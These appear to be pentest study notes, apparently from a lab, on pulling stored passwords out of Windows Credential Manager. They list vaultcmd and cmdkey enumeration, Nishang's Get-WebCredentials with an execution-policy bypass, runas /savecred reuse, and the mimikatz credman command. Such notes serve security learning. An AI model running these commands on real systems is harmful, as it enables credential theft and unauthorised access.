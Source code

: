 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#runas #mimikatz #powershell #cmdkey #vaultcmd 
- Credential manager stores passwords for website, RDP logons etc.
- `vaultcmd` and `cmdkey` can be used to manage credentials in the credential manager.
```powershell
# list vauls, by default, "Web Credentials" and "Windows Credentails" are present
vaultcmd /list
vaultcmd /listproperties:"Web Credentials"
# list stored credentials
vaultcmd /listcreds:"Web Credentials"

# list keys
cmdkey /list
```
### Nishang
- Nishang's https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1 can be used to fetch cleartext web password from credential manager.
```powershell
powershell.exe -ex bypass
. .\Get-WebCredentials.ps1
Get-WebCredentials
```
### RunAs
- Runas.exe can be used to use the saved credentials.
```powershell
# list saved credentials
cmdkey /list

# runas can be used to use these credentials
runas.exe /savecred /user:thm.red\thm.local
```
### Mimikatz
- mimikatz can be used to fetch credentials from credential manager.
```powershell
sekurlsa::credman
```